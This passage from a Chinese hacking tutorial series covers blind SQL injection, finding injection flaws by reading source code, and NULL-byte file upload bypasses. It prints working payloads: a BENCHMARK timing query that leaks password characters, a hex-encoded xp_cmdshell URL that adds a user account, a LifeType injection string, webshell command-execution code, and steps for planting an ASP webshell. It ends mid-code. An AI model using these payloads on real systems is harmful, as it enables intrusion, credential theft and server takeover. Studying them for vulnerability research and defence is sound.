除去较为直观的根据返回数据的差异进行注入漏洞发掘，我们还要注意一种利用时间差异发现注入漏洞的方式。之所以将这种方式单独列出来，是因为越来越多的 Web 程序开发者开始注意注入漏洞；他们虽然防范了那些较为明显的代码错误，但是对于一些较为复杂的地方往往疏于防范。例如某一段数据库查询代码只是整个代码文件中极小功能的一段，无论这段代码正确与否，都不会导致程序出错。这个时候我们如果还是只从返回数据上找差异，那么一定会错过这些注入漏洞的发现。有时，注入漏洞在程序中出现的地方会非常隐蔽，如果仅凭借对目标程序返回结果进行异同比较，很难弄清楚目标程序是不是存在漏洞。这里强调一个词语“盲注”。盲注主要就是指在进行注入攻击时，数据库的错误信息被隐藏时需要使用的注入技术。我们这里主要关注在 Mysql + PHP 环境下的盲注攻击。这里最为经典的盲注技术就是来自 NGSS 资料里的时间延迟注入技术。在 PHP + MySQL 环境中，时间的延迟语句我们选择 `BENCHMARK()` 函数。只要我们把参数 `count` 设置大点，那么执行的时间就会变长。我们来看下面的一个简单测试结果。

```sql
-- 传递一个错误的数字（CHAR(52) is equal to '4'）
mysql> Select active_id FROM mb_active UNION
SELECT IF(SUBSTRING(user_password,1,1)=CHAR(52),
BENCHMARK(5000000,ENCODE('Slow Down','by 5 seconds')),null)
FROM mb_users WHERE user_group=1;

+-----------+
| active_id |
+-----------+
| ?? 3      |
| ?? 0      |
+-----------+
2 rows in set (0.00 sec)
```

上面的例子中，`BENCHMARK()` 函数没有被执行（耗时 0.00 sec）。

```sql
-- 传递相匹配内容（BENCHMARK() 被执行）
mysql> Select active_id FROM mb_active UNION
SELECT IF(SUBSTRING(user_password,1,1)=CHAR(53),
BENCHMARK(5000000,ENCODE('Slow Down','by 5 seconds')),null)
FROM mb_users WHERE user_group=1;

+-----------+
| active_id |
+-----------+
| ?? 3      |
| ?? 0      |
+-----------+
2 rows in set (5.36 sec)
```

上面的例子中，`BENCHMARK()` 函数延迟查询 5.36s。

从这个例子我们看到，`BENCHMARK()` 函数的延迟作用很明显，这对于远程访问网站的时间可以起到很大的效果，你会觉得网页打开速度慢了很多。

盲注的表现形式远远不止这一种，我们在选择使用盲注的时候，最主要的目的就是将那些本来屏蔽掉的错误给想办法显现出来。在 MSSQL 数据库的注入中，还有一种利用 `openquery` 函数的方法：在给定的链接服务器（OLEDB 数据源）上执行指定的直接传递查询。`OPENQUERY` 只返回第一个结果集。

这个函数将远程测试网站的测试信息返回到本地数据库查询中，是一种很巧妙的测试方法。在一些内网中使用效果较好。这里还有一个很关键的测试语句 `union`，这里把这个语句的使用方法说明一下。

对于语句 `select A union select B`（A 和 B 不同数据表查询）：`union` 查询必须是 B 里的字段要和 A 一样。在 MSSQL 里的 union 查询，前面查询 A，如果数据存在，不会像 Mysql 一样输出前面查询 A 的数据，而是可能出现类型转换相关错误提示（如 nvarchar 转换为 int 的列时发生语法错误这样的错误）。其实在注入中，我们的目的是要求得到语句 B 的返回结果，使用 union 查询替换输出必须保证语句 A 得到的结果为空，这个不管是 MySQL、Access 还是 MSSQL 都是一样的。

## 2）源代码检查技术

所有基于代码的检查技术几乎刚开始都是先要找到一些关键字符。在发掘 XSS 漏洞中，我们找寻的是那些用来获取外部数据的关键变量，这里我们首先要找寻的目标换成了所有使用了数据库操作语句的地方。由于操作数据库的语句大多相同，我们可以搜索这些常用的操作语句，例如 select、update 语句。还有一种搜索办法，就是由于 Web 程序在操作数据库时，必须先有一个对数据库初始化的操作，也就是产生一个数据库对象，这样在后面要使用数据库进行操作时，就可以利用这个数据库对象进行直接操作。针对不同的语言下产生数据库对象的操作语句不同，我这里把它们列成一个表格给出，大家可以对照搜索。

| 数据库对象 | 数据库操作语句 |
|---|---|
| ADO | ADODB.Connection |
|  | ADODB.Command |
|  | ADODB.Recordset |
| C | SqlConnection |
|  | SqlCommand |
|  | SqlClient |
| ColdFusion | cfquery |
| DBC | java.sql.Connection |
|  | java.sql.Statement |
|  | java.sql.ResultSet |
| OLE DB | ICommand |
|  | ICommandText |
|  | IRowSet |
| Transact-SQL | OPENDATASOURCE |
|  | OPENQUERY |
|  | OPENROWSET |

除去这种比较直观的数据库操作语句，我们有时会碰到另外一种注入型的代码，就是我们在基础部分介绍的利用数据库自身提供的存储过程运行的代码。针对这种形式的代码，它的表现形式非常明显，因为你完全可以在 Web 程序代码中通过查找相应数据库的存储过程名来找到可能出现漏洞的地方。

找出使用了数据库操作语句的地方，我们接下来的工作就是判断在这些数据库操作语句中有没有将来自外部的数据放入到语句中操作，并且有什么样的限制，因为我们的注入攻击就是修改那些关键变量成为一个数据库操作语句，然后被程序传递到真正的数据库操作中被执行。我们来看一个 PHP 程序的例子。

```php
if($thread = $db->fetch_array($query)) {
  (1) $tid = $_GET['tid'];
  (2) if($tid) {
  (3) supe_dbconnect();
  (4) $supe['db']->query("UPDATE spaceitems SET issuper='1' WHERE id=$tid");
}
```

分析上面的代码，标记为 1 的这行代码告诉我们 `$tid` 这个变量是通过 Get 方法从外部获取的，然后代码判断这个变量是不是空数据，标记为 3 的这行代码负责对数据库的连接，然后注意标记 4 的这行代码，程序未经过任何限制过滤直接将 `$tid` 变量放入了一个 update 语句中，这样我们就可以判断这个地方就是一个注入漏洞了。

正因为我们先找寻的是数据库操作语句，往往我们会先定位到实际的操作语句上，例如上面的那段代码，我们会先找到标记为 4 的这一行代码，然后我们此时要利用回溯法，将其中的变量进行向回查找，看看它究竟是从哪里获得的，这样我们才能发现它究竟是不是来自外部。如果我们找寻到的数据库操作语句中的变量来自我们从外部提交的数据，我们一定要注意分析这个数据是不是还会被限制，例如会加上对字符的过滤，我们看下面的代码。

```vb
S = Request("S")
S = replace(S, "'", "")
SQL = "select password from users where keyword='" + S + "'"
```

关键变量 S 虽然来自外部，也被放入到了数据库查询语句中，但是我们发现 S 变量被 replace 函数进行了一次过滤，此次过滤会将 S 变量中出现的单引号转换为空。但是在后面的查询语句中我们发现 keyword 等号后面的 S 是被单引号括住的，如果 S 变量中没有单引号，那么无论我们如何改变 S 的值，它都会被当作一个字符串放入到查询语句中。

`and 1='1'`，此时，123456 后的单引号与 keyword 等号后的单引号对应，使得 123456 成为一个封闭变量传递给 keyword，而 select 语句中最后的那个单引号会与“'1'”的单引号形成封闭，这样就可以将我们的注入代码放入查询语句了。但是 S 变量被过滤了单引号，所以我们注入很可能就不成功了。为什么说很可能不成功？这是因为如果目标程序的数据库是一个 SQL Server 的话，由于 SQL Server 数据库支持查询语句被编码，而一旦查询语句被编码就不会出现单引号，所以我们就可以绕过 replace 函数的过滤。

网上有一篇文章，绕过单引号限制继续注入，我们将其中的一些讲解引用到这里：只要变量过滤了“'”就可以防止 SQL Injection 攻击，这种意识为大量程序可以注入埋下了祸根。其实仅仅过滤“'”是不够的，在“'”被过滤的情况下我们照样玩。

```text
http://www.ilikeplmm.com/show.asp?id=1;declare%20@a%20sysname%20select%20@a=0x6e006500740020007500730065007200200061006e00670065006c002000700061007300730020002f00610064006400%20exec%20master.dbo.xp_cmdshell%20@a;--
```

是不是跟上面的那句有很大区别？可是效果完全是一样的。其实这些都是 SQL 语句。`0x6e006500740020007500730065007200200061006e00670065006c002000700061007300730020002f00610064006400` 这句是 `net user angel pass /add` 的 16 进制格式。了解 SQL 的朋友容易明白，先声明一个变量 a，然后把我们的指令赋值给 a，然后调用变量 a，最终执行输入的命令。变量 a 可以是任何命令。单引号的绕过不仅仅限于编码，还可以使用 hex 之类的函数来绕过。

总体上来讲，代码检查技术是一个要求很高的方法，它需要你长时间在代码前积累你的发掘经验，并且由于要涉及回溯关键变量，常常会为了发掘一个漏洞而耗费一天甚至是一周的时间，而且你要对所研究的目标代码的语言比较熟悉。例如对于 Discuz 论坛，这个出色的论坛程序，在编写结构上发挥了 PHP 语言的对象特点，许多地方的代码不再是直白的表达，要求你对 PHP 语言有一定的编写经验，才能正确跟踪程序流程。

代码检查技术的缺陷，简单而快捷，是一种适合新手上路的发掘方法。不过，我们也不能完全凭借人工的代码检查。在 Discuz 论坛的一个注入漏洞发现中，正是使用了类似我们在 XSS 漏洞发掘中使用的技巧，先手工找出文件中关系到的所有变量，然后做成表格，接着结合数据包一个一个测试组合，最后成功发现了一个非常隐蔽的注入漏洞，这个漏洞也依此类推地涉及到了 phpwind。

这种方法使得我们既脱离了代码审核的复杂性，也提高了漏洞的发现效率，不失为一种好的方法。当然，我这里还得说一下，由于我们关注的是注入漏洞的发掘，有时会牵扯一些注入的方法，这很让一些读者迷惑：是不是注入漏洞的利用方法就这么几种？其实，注入漏洞的发掘常常依据我们采用的检测方法。

简单地说，一个注入点采用了单引号过滤的办法，那么传统的测试手段也许就会出现无论是使用正确的测试语句还是错误的测试语句，被测试的 Web 程序都会报错。此时，如果简单地认为这里没有注入漏洞，那么我们就会错失一个发现机会。所以说，我们一旦掌握更多的注入方法，就会发现过滤单引号的地方不完全就不存在注入漏洞。

注入漏洞的发掘的实质在于发现我们的提交数据会不会影响到数据库操作，而论其发掘方法，那就是由越多的思路决定的。这里还是借助国内研究注入攻击的高手安全天使的一段话：“SQL injection 可以说是一种漏洞，也可以说成是一种攻击方法，程序中的变量处理不当，对用户提交的数据过滤不足，都可能产生这个漏洞，而攻击原理就是利用用户提交或可修改的数据，把想要的 SQL 语句插入到系统实际 SQL 语句中，轻则获得敏感的信息，重则控制服务器。SQL injection 并不仅仅局限在 MSSQL 数据库中，Access、Mysql、Oracle、Sybase 都可以进行 SQL injection 攻击。”

“记住，在你测试一个 Web 程序的注入漏洞时候，一定先区分一下被测试目标的数据库类型，要知道测试语句是区分数据库的，如果不注意这一点，也许你永远都只会发现某种数据库的注入漏洞了。”

## LifeType 1.06 注入漏洞发掘实例

LifeType 是一款优秀的 PHP 编写的 Blog 程序，因为其运行效率高、搭建简单、界面简洁，使得它在国际上的知名度很高，并且在著名的开源网站 SourceForge 上被点名表扬过。国内安全焦点组织的 Blog 程序就是来自于这款 Web 程序。在过去，我对其 1.06 版本的源代码检查中，使用以前提到过的整站程序代码查看的必备软件 DreamWeaver，设置一个“新站点”，将 LifeType 的代码全部引进来之后，搜索“SELECT”关键字，来到了文件 `galleryresources.class.php` 中，发现该文件存在注入漏洞。

图2

图3

```php
function getResourceFile( $ownerId, $fileName, $albumId = -1 ) {
    $query = "SELECT id, owner_id, album_id, description,
    date, flags, resource_type, file_path, file_name,
    metadata, thumbnail_format
    FROM ".$this->getPrefix()."gallery_resources
    WHERE owner_id = $ownerId AND
    file_name = '$fileName'......
```

我们看代码的最后一行，`file_name='$fileName'`，其中 `fileName` 变量来自外部数据，在这里没有做任何检查就将 `fileName` 参数放入了数据库查询语句中，使得我们猜测这里存在注入漏洞。但是，我们同样注意到 `fileName` 变量是被单引号括起来的。对 PHP 程序来说，一旦网站管理员修改 PHP 配置文件中的 `magic_quotes_gpc` 属性为 on，也就是开启特殊符号转义功能，将会导致所有来自外部变量中的特殊符号会被加上转义字符“\”。可是我们的 `fileName` 变量要想成功注入数据库，其格式就必须类似“XXX' and 1='1”……

为了验证我们的代码分析是否正确，我们采用异同法来进行进一步测试。先对比图2与图3。这里的 `resource` 就是我们在代码中分析的 `fileName` 变量。图2中，我们给 `resource` 赋值为“COPYRIGHT.txt'%20and%20(select%20count(*)%20from%20xf_users)>0/**”，这段代码如果被传递到前面分析的 `select` 语句中就是：

```sql
$query = "SELECT id, owner_id, album_id, description, date, flags,
resource_type, file_path, file_name, metadata, thumbnail_format
FROM ".$this->getPrefix()."gallery_resources
WHERE owner_id = $ownerId AND
file_name = 'COPYRIGHT.txt' and (select count(*) from xf_users)>0/**";
```

“COPYRIGHT.txt'”封闭了前面的查询代码，后面的“and (select count(*) from xf_users)>0”是我们想要执行的查询代码，其目的就是判断 `xf_users` 表中的数据是不是大于 0。而在图3中，我们的查询代码换成“and (select count(*) from xf_users)<0”，这样无论表中有没有数据，我们的两个查询代码肯定一个为真，一个为假，这就会引起查询结果的改变，所以就出现图2显示得比较正常，而图3显示出一个 error，这就证明了我们发现的 `fileName` 变量果然存在注入漏洞。而我们最后输入的“/**”则是一个注释语句，用来防止后面的代码干扰我们的注入语句。

好了，关于注入漏洞的发掘就先讲到这里，若有不明白之处，欢迎到大家黑防论坛，我们共同讨论。

前置知识：无

关键词：脚本、注入、漏洞发掘

# 黑客漏洞发掘技术内幕系列之五：上传漏洞的变种技术

文／图 爱无言

在开始本文内容前，我们先说一个在 Web 应用程序安全领域频繁出现的词汇“WebShell”。一个网站之所以能够进行一系列的动态交互，就是利用了 Web 应用程序语言。这些开发语言为了方便开发者使用，会有很多特殊的功能，可以直接利用它们来操作文件、文件夹，或者可以执行系统命令，甚至可以结合系统的组件来扩展其功能。一般来说，这些开发语言开发出的应用程序都是用于服务器端的，因为它们需要专门的服务器环境进行解析执行。

但是，如果一旦有人通过这些 Web 开发语言写出一些带有非法性质的程序，然后通过某种方式放置到网站服务器上，就会获得利用这个程序进行操作服务器文件、控制服务器的目的，这很像是我们常说的木马程序。由于这种“木马”程序是出现在 Web 应用程序中的，所以它得到了一个特殊的名字——“WebShell”。

“Shell”这个词汇来自 UNIX 系统，意思是一个可以与用户进行交流，然后按照用户要求执行命令的外壳程序；壳下是操作系统，这样就可以将系统的复杂性隐藏起来，用户用到的只是一些简单的命令就可以达到操作计算机的目的。“WebShell”也正是这样利用 Web 开发语言的特殊功能，我们只需要将系统命令输入到表单提交，WebShell 就可以帮助我们执行命令并返回执行结果，相当于我们通过 Web 程序制作出了一个系统 Shell，并且它还是可以远程访问的。

现在，较为主流的 WebShell 主要是针对 ASP、ASP.NET、PHP、JSP、PERL 这五种语言编写的 Web 应用程序。国内大名鼎鼎的“海阳顶端”木马就属于 ASP 型的 WebShell，WebAdmin 则属于 ASP.NET 型的，PHP 型的 WebShell 主要是安全天使的 PHPSPY。JSP、PERL 型的 WebShell 则较为稀少，大多是一些私人使用的 Shell 程序。这些种类繁多的 WebShell，只要放入到相应的服务器环境中，就会发挥巨大的控制作用。这里以“海阳顶端”木马作为演示，结合对其代码进行分析，从而更加深入了解 WebShell 的工作原理。

在输入默认密码后，我们登录到“海阳顶端”木马的主界面，可以看到“海阳顶端”木马将我们的一个文件夹中所有文件以及子文件夹全部列出了，在这里可以对这些文件以及文件夹进行删除、编辑、拷贝、下载等操作。除此之外我们注意到，在“海阳顶端”木马上方有几个选择项，包括浏览目录、文件上传、cmd 命令、执行程序、新建目录／文件。这些选项完全能够满足一个入侵者的需要，其中最具危害的是“cmd 命令”。我们可以在这里输入想要执行的任意 cmd 系统命令，假设我们想知道该台服务器上的用户有哪些，可以键入“net user”命令来执行查看，如图1所示。

执行后，该 WebShell 的最上方就会显示出命令执行结果，可以看到该主机存在 9 个用户。cmd 命令的作用不仅如此，我们还可以使用这些命令来直接攻击服务器系统本身，一旦拿下系统，就拥有了至高无上的权力。“执行程序”这个选项其实就是一个变相的 cmd 命令，可以将自己的木马程序或者病毒程序上传到服务器上，来进一步控制服务器系统。

图1

为了更好地理解 WebShell 这些功用是如何利用“小小的脚本”来实现的，我们来看看“海阳顶端”木马的原始代码。首先看看进行文件控制的具体代码。

```vb
(1) set fsoBrowse = CreateObject("Scripting.FileSystemObject")
(2) cpath = Server.MapPath(lpath)
...
(3) dim theFiles
(4) if fsoBrowse.FolderExists(cpath) then
(5)   Set theFolder = fsoBrowse.GetFolder(cpath)
(6)   Set theFiles = theFolder.Files
(7)   Response.Write "..."
(8)   For Each x In theFiles
(9)     if Request("lattrib") = "true" then
(10)      showstring = "<strong>" & x.Name & "</strong>"
(11)    else
        showstring = "..."
(12)    end if
(13)    Response.Write "..."
(14)  Next
(15) end if
(16) Response.Write "</table>"
```

第一行代码的意思是建立一个文件操作对象 FSO。FSO 是 Windows 的一个组件，提供了一些外接接口可以用来操作文件、文件夹，并且 Windows 下的这些组件可以被用在 ASP 中，这样 ASP 程序就可以方便地进行文件以及文件夹操作了。

第二行代码是使用 Server 对象的 `MapPath` 函数进行路径的转化。因为 Web 应用程序在服务器上是以普通文件存在的，但是远程用户通过浏览器访问时，使用的却是一个虚拟路径，这样如果要操作某一个文件时，必须先将虚拟路径转化成物理实际路径才能正常访问。第四行代码是 if 判断语句，其作用就是利用 FSO 组件的 `FolderExists` 方法来判断我们现在要访问的目录路径是否存在，如果存在，代码第五行就建立一个文件夹对象来代表我们要访问的这个文件目录，然后第六行代码创建一个对象来代表该目录中的所有文件，这样在后面的第八行代码上就使用了一个 for 循环语句来不断地将该目录中的文件依次选择出来，然后通过 response 对象回显这些文件的文件名称、文件大小等信息。

可以看出，“海阳顶端”ASP 木马的文件操作功能完全利用了将系统提供的 FSO 组件引入到 ASP 应用程序中得以实现。ASP 语言通过这种可以建立组件对象的方法，获得了更加强大的辅助功能。这些功能不仅仅限于文件操作，还可以进行 cmd 命令执行。我们接着来看看“海阳顶端”中关于“cmd 命令”功能的实现代码。

```vb
Set oScriptlcx = Server.CreateObject("WSCRIPT.SHELL")
...
DsnXA = Request.Form("CMD")
if (DsnXA <> "") Then
  szTempFile = "C:\" & oFileSyslcx.GetTempName()
  Call oScriptlcx.Run("cmd.exe /c " & DsnXA & " > " & szTempFile, 0, True)
  Set oFilelcx = oFileSyslcx.OpenTextFile(szTempFile, 1, False, 0)
```

程序还是先使用 `CreateObject` 方法建立了一个组件对象 `wscript.shell`，然后利用 `Request.Form` 获得我们填写在表单中想要执行的命令字符串，之后的代码是建立一个临时文件，用来在命令执行完后进行命令结果的回显。然后，程序用 `Call` 指令调用了 `wscript.shell` 组件的 `Run` 方法，这个方法可以执行系统命令。程序将我们想要执行的命令使用“>”写入到临时文件中，最后程序将这个临时文件打开读取后回显给浏览器。

“海阳顶端”木马之所以拥有如此强大的控制功能，全部得益于 ASP 程序的组件引入功能。而对于 PHP、Perl 这些语言来说，自身就提供了一些可以操作文件、执行系统命令的函数，有了这些函数同样可以制作出这些开发语言下的 WebShell 程序。

WebShell 从 Web 应用程序角度来讲，完全是一个合法的 Web 程序。它对于网站管理人员来说，可以作为一个远程管理服务器的平台，但是一旦有人抱着非法目的来操作 WebShell，将对网站以及服务器主机产生巨大的破坏效应。

明白了什么是 WebShell，我们现在试想一下，如果一个攻击者试图在目标服务器上安装 WebShell，那么他首先要找到服务器上允许安装 WebShell 的途径。服务器的管理者不可能不做任何限制地允许任何人向服务器上安装这样具有威胁性质的程序，但是种种迹象表明，Web 程序的编写者没有做什么关于安全方面的思考。在接下来的漏洞发掘中，我们将向大家展示一些可以获得向服务器安装 WebShell 的方法，这些方法全部是建立在相应的 Web 程序漏洞上的。如果 Web 程序出现这些漏洞，再加上有 WebShell 的存在，那么使用了此类 Web 应用程序的网站，将毫无遮挡地暴露在恶意攻击者的面前，没有任何秘密可言。

## 上传文件漏洞出现的原因

在 2004 年 7 月，在著名的安全网站 security-assessment.com 上，Brett Moore 发表了一篇题为《0x00 vs ASP File Uploads》的 WhitePaper。在这篇文章中，Brett Moore 指出，许多上传系统都是使用 ASP 语言编写的，这些 ASP 程序允许将 NULL byte 放入文件名称，这样就会导致在 NULL byte 后面的扩展名不被读取。这意味着在一些情况下，会绕过程序对上传文件扩展名的限制。

文章还指出，对于 PHP 以及 Perl 语言开发的应用程序也存在这样的绕过漏洞，只是需要考虑如何向这些程序发送 NULL byte。这篇文章也许就是最早揭示 Web 应用程序出现上传漏洞原因的文章。我们现在来仔细分析一下这段文字的意思。

首先，解释一下什么叫做 NULL Byte。无论什么样的开发语言，在处理字符串时都要有一个判断字符串结束的标志，不然程序就会出现无法正常获得字符串结尾字符的错误。这些用来标志字符串结尾的字符就是 NULL byte。在 Windows 系统下，NULL byte 是 0x00（十六进制表示），而对于 PHP 程序来说则是 `%00`。

还是利用 Brett Moore 在论文中的文字来解释 NULL byte 如何引发上传漏洞。“ASP 程序中，文件上传是利用 form 表单进行的。当 input 对象的属性为 file，并且数据编码方式为 multipart/form-data 时，就可以进行文件上传。这种编码方式可以将二进制，甚至是那些非 ASCII 码范围的数据上传到网站上。因此，我们也就可以将 NULL byte 传递给程序。”作为一个网站访问的用户，只有通过网站提供的上传表单才可以进行文件的上传，图2便是一个常见的文件上传表单。

图2

这个上传文件的表单在原始代码上就表现为：

```html
<FORM name=frm action=attachment.asp?action=upload method=post encType=multipart/form-data>
<INPUT style="BORDER-TOP-WIDTH: 1px; BORDER-LEFT-WIDTH: 1px; FONT-SIZE: 12px; BORDER-BOTTOM-WIDTH: 1px; BORDER-RIGHT-WIDTH: 1px" type=file size=28 name=filename>
<INPUT class=userbutton type=submit value=确定上传 name=Submit>
<INPUT id=Md title=只对UBB编辑有效,媒体文件包括图片无效 onclick=MSave(this) type=checkbox value=1 name=MemberDown>
<LABEL title=只对UBB编辑有效,媒体文件包括图片无效 for=Md>此文件只允许会员下载</LABEL>
</FORM>
```

当用户点击“浏览”按钮后，便会出现一个文件选择对话框，用户可以通过这个选择对话框选择将要上传的文件，选好后就可以点击“确定上传”按钮，此后表单将文件数据传递给远程 Web 应用程序进行处理。一般来说，Web 程序开发者为了考虑到实际使用以及网站服务器安全，会限定只允许上传某些类型的文件。一旦用户上传的文件类型不正确，Web 应用程序就会给予警告提示。如果符合要求，Web 应用程序就会对上传文件在服务器上予以保存。

这里我们使用 ASP 语言作为例子，它在保存文件时的代码一般如下：

```asp
Public Sub Save(filename)
  Dim objFSO, objFSOFile
  Dim lngLoop
  if right(filename,4) <> ".bmp" then exit sub
  path = server.MapPath("/uploads/")
  Set objFSO = Server.CreateObject("Scripting.FileSystemObject")
  Set objFSOFile = objFSO.CreateTextFile(path + "\\" + filename)
  objFSOFile.Write <file contents>
  objFSOFile.Close
End Sub
```

其中 `filename` 参数是程序从外部获取的，也就是我们前面提交的那个表单中的 `filename`。程序一开始对 `filename` 的扩展名进行了一个判断，也就是代码中包含 `right(filename,4)` 的那个 if 语句，如果扩展名不是 `.bmp`，则认为上传文件格式非法，程序不再执行下去，直接退出文件保存函数。如果合法，程序就会执行到 `Set objFSOFile = objFSO.CreateTextFile(path + "\\" + filename)` 这句代码，也就是将 `filename` 与 `path` 组合成为一个完整文件名，然后利用这个文件名将上传文件保存在服务器上。

我们注意到，程序在进行扩展名判断时，使用的是从 `filename` 的右侧读取四字节字符串，然后与 `.bmp` 进行比较。如果 `filename` 参数存在一个 NULL byte，这个 NULL byte 不出现在 `filename` 右侧四个字节里，并且 `filename` 右侧四字节保持为 `.bmp`，这样代码就认为 `filename` 是一个合法的参数。然后服务器代码准备组合 `filename` 与 `path` 参数。这里我们停一下，如果现在我们传递给程序的 `filename` 形式是这样 `test.asp0x00.bmp`，其中 `0x00` 代表前面我们提到的 NULL byte。这时由于 ASP 语言认为 NULL byte 后面的字符均为无效字符，因为 NULL byte 代表字符串结束，这时代码要准备保存的完整路径变成了 `path/test.asp`，这是一个 Web 应用程序所不允许的文件格式。

一旦 `test.asp` 里的代码是一个 ASP 型的 WebShell 代码，这就意味着我们通过发送包含 NULL byte 的文件数据，成功获得了上传 WebShell 的权限，漏洞由此产生。

通过前面的讲解，我们明白了上传漏洞产生的原因，感谢 Brett Moore 能够发掘出如此另类的 Web 程序漏洞。从出现了这种形式的上传漏洞后，相继演化出很多新型的文件上传漏洞。例如由于文件名过滤不严导致的将其他可利用类型的 WebShell 文件传至服务器上的，以及一些由于逻辑出错导致的上传漏洞。这些新型的漏洞，都是由于 Web 程序开发者虽然注意到使用一些别的方法来防范 NULL byte，但是却过犹不及，导致出现了这些变相的上传漏洞。

上传漏洞本身并不可怕，可怕就可怕在有了 WebShell 的存在。一旦把它们结合起来，那么对任何一个网站服务器来说，都是致命的。

## 发掘上传漏洞的方法

根据前面上传漏洞的基础部分，我们可以看到上传漏洞出现的主要原因为：断意字符的出现以及 Web 程序过滤不当两个方面。正是因为这两种原因，我们在发掘上传漏洞时有了两种不同的发掘方法，分别是使用断意字符的伪造数据包测试方法和对处理文件代码的分析方法。

这是因为对于那些由于 NULL 字符导致的上传漏洞，最简单的测试方法就是伪造带有 NULL 字符的数据包来进行黑盒式测试；而那些除此之外导致的上传漏洞，我们则建议使用代码分析方法。这是因为在这种上传漏洞的发掘中，我们可以很快地找到整个 Web 程序中用来处理上传的部分，这不会花费很多时间，然后再利用已知的那些上传漏洞代码做例子，自己进行代码分析。

- 1）伪造数据包法

伪造数据包法，就是对要发掘漏洞的目标程序，在其上传文件的地方，使用加入断意字符修改后的数据包来提交测试，检查能否上传可利用的非法程序。针对不同的 Web 程序应当……使用不同的断意字符，假设目标程序是一个 ASP 程序，那么断意字符就是 `0x00`。如果是 PHP 程序，就是 `%00`。这种方法常常使用在对 ASP 程序的上传漏洞测试中。

这种测试方法的步骤较为简单，其流程如图 3 所示。首先需要对目标程序进行一次正常的上传并截获其数据包。


图3

这里的“正常上传”包含两层意思：一是要通过符合 Web 程序流程的方式进入文件上传页面。就像论坛，你必须要先登录后才可以上传文件。这一步很关键，因为在后面的步骤中，我们修改数据包内容时必须严格按照正常数据包的关键信息填写；二是要按照目标程序的要求上传合法文件。很多时候，我们在上传文件时发现 Web 程序会提示“你只能上传下列文件格式 doc、rar、txt”，这个时候就要按照要求上传一个 doc 或者 rar 之类的文件，这样这个截获的数据包才对我们有用。

截获数据包的工作，我们完全可以交给 Winsock Expert 来做。具体就是运行 Winsock Expert，然后点击“打开”图标，找到要监视的程序名。这里如果是使用 IE 访问目标程序，那么就要选择列表中的“IEXPLORE.EXE”，其他浏览器监视也类似。点击“打开”，此时 Winsock Expert 程序就处于对浏览器的监视状态。现在我们使用浏览器访问目标程序的一切数据交换，都会被程序自动监视记录下来。通过这样的方法，就能获得一个正常的文件上传数据包了，如图4所示。


图4

```txt
shockwave-flash, */*
Referer: http://127.0.0.1/attachment.asp
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=---------------------------7d735b1f1e0726
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; ...)
Host: 127.0.0.1
Content-Length: 327
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ...
-----------------------------7d735b1f1e0726
Content-Disposition: form-data; name="File"; filename="F:\project\compfile.txt"
Content-Type: text/plain

check upload bug!
-----------------------------7d735b1f1e0726
Content-Disposition: form-data; name="Submit"

本次上传成功
-----------------------------7d735b1f1e0726
```

图中下半部分显示的就是一个完整的数据包，现在把截获的上传数据包保存成 TXT 文件。

接下来我们就要进行数据包伪造工作了。为了具体一点，我们看一个例子。假设用 WinHex 打开截获的正常上传文件的数据包，类似下面这样：

```txt
POST /attachment.asp action=upload HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg,
image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, ...
```

我们注意这一行：“Content-Disposition: form-data; name="File"; filename="F:\project\compfile.txt"”，此处 filename 的值就是一个完整的上传文件名称。从基础部分我们知道，凡是由于断意字符引发的上传漏洞，就是因为 Web 程序获得的上传文件完整名有问题。那么我们现在就要把这个正常的文件完整名修改成一个“有问题”的测试语句，从而发掘目标程序的漏洞。

回到 WinHex 中，WinHex 对文件的显示是按照左侧十六进制、右侧文本形式来显示的，如图5所示。找到我们要修改的 filename 这一行，也就是图中标记“912”的这一行。此时我们的目的是要弄一个断意字符在这里。记住，我们应该把这个字符放到文件的扩展名前面，也就是要把字符放到“.txt”前面。为什么要这样做？很简单，一般 Web 程序在检查上传文件是否合法时，就是通过判断文件的扩展名来确定的，如果此时我们修改了“.txt”，那么程序认为其非法，直接将其拒之门外，何谈后面的上传测试。并且为了简单起见，我们最好不要插入断意字符，而是修改某个字符为断意字符，不然还要修改数据包里的“Content-Length”属性，或者更复杂。


图5

现在，我们开始修改，注意对比图6中的两张图。修改前的完整文件名是“F:\project\comfile.txt”，修改后为“F:\project\co.asp .txt”。我们将 comfile 中的字母“e”换成一个断意字符。由于断意字符是十六进制的 `0x00`，这个字符属于不可见字符，也就是说我们不能用普通的文本编辑软件如记事本来产生这个字符，这就是我们选择使用 WinHex 编辑的原因。我们可以直接在 WinHex 的左侧窗口中找到要修改的这个“e”对应十六进制表示，这里就是标记为 912 行的第一个“65”，将其改为“00”。注意，我们还要将“mfil”这四个字母换成“.asp”，这意味着目标程序本身是禁止 ASP 文件上传的，但是我们要测试它在断意字符存在下究竟是不是也会禁止 ASP 文件上传。这样修改好后注意保存此文件，假设为“test.txt”，下面我们进入第三步。


图6

这一步的动作就是将这个修改好的数据包提交给目标程序，实际操作的方法很多。在 Windows 下可以使用 NC 来帮助我们实现。接着上面的例子，先打开一个命令行窗口，然后把 NC 和修改保存的数据包文件“test.txt”放在同一目录下，键入命令“nc http://localhost 80 < test.txt”，该命令表示将 test.txt 的内容发送到网址为“http://localhost”的 80 端口上去。这样我们就能将伪造的数据包传递到测试的目标程序中了。只要以上操作无误，NC 很快就会返回，这个时候首先观察返回内容中有没有提示诸如上传成功或者 success 这样的词语，甚至还可以直接查看有没有出现错误提示的内容。

如果成功上传了，这个时候要检查在目标程序所在的位置中是不是真的创建了一个 ASP 文件。准确地说就是，如果是本地搭建的测试环境，就要检查目标程序所在文件中有没有创建一个与上传内容相同的 ASP 文件；如果是远程测试，就要根据返回结果找到上传成功后文件保存的地址链接，看看是不是一个以 ASP 结尾的 URL 地址。如果符合上面说的要求，那么就成功发现了目标程序的一个上传任意文件漏洞。这一点很关键，并不是上传成功就代表我们发现了一个上传漏洞，因为有一些程序的检测可能更加深入，即使我们能够绕过后缀名检测，它也会使用别的办法来阻止上传一些有害文件。最简单的办法就是把上传的文件名直接修改，然后保存成文本文件，或者别的什么无害格式。

下面我们结合动网论坛上传任意文件漏洞来具体看看这种测试技术的实际应用。在使用伪造数据包测试法之前，先看一下动网论坛上传文件的相关代码（去掉了一些不关键的地方，加上了相关注释）。

```vb
set upload=new Upfile_Class
' 建立上传对象
